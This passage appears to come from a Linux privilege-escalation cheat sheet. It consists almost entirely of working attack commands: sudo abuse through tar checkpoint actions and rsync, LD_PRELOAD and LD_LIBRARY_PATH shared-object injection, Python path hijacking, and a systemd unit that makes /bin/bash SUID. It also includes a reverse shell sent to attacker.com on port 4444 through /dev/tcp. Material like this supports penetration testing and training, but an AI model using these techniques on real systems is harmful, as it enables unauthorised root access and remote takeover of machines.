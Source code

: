 #### Common Sudo Exploitation

**Wildcard Exploitation**
```bash
# If sudo allows: /bin/tar -cf /dev/null *
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' > payload.sh
chmod +x payload.sh
sudo /bin/tar -cf /dev/null * --checkpoint=1 --checkpoint-action=exec=sh\ payload.sh

# If sudo allows: /usr/bin/rsync *
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' > payload.sh
chmod +x payload.sh
sudo /usr/bin/rsync -e 'sh payload.sh' /dev/null 127.0.0.1:/dev/null
```

**Environment Variable Exploitation**
```bash
# LD_PRELOAD exploitation
echo 'void _init() { setuid(0); setgid(0); system("/bin/bash"); }' > shell.c
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=./shell.so program

# LD_LIBRARY_PATH exploitation
ldd /usr/bin/sudo_program
echo 'void puts() { system("/bin/bash"); }' > puts.c
gcc -fPIC -shared -o libputsfake.so puts.c
sudo LD_LIBRARY_PATH=. program
```

**Python Library Hijacking**
```bash
# If sudo allows Python script in writable directory
echo 'import os; os.system("/bin/bash")' > library.py
sudo /usr/bin/python3 /path/to/script.py

# sys.path hijacking
python3 -c "import sys; print('\n'.join(sys.path))"
echo 'import os; os.system("/bin/bash")' > /tmp/subprocess.py
export PYTHONPATH=/tmp
sudo /usr/bin/python3 script_that_imports_subprocess.py
```

### Service Exploitation

#### Systemd Service Abuse
```bash
# Check writable service files
find /etc/systemd -name "*.service" -writable 2>/dev/null
find /usr/lib/systemd -name "*.service" -writable 2>/dev/null

# Create malicious service
cat << 'EOF' > /tmp/privesc.service
[Unit]
Description=Privilege Escalation Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c 'chmod +s /bin/bash'
User=root

[Install]
WantedBy=multi-user.target
EOF

# Enable and start service
systemctl link /tmp/privesc.service
```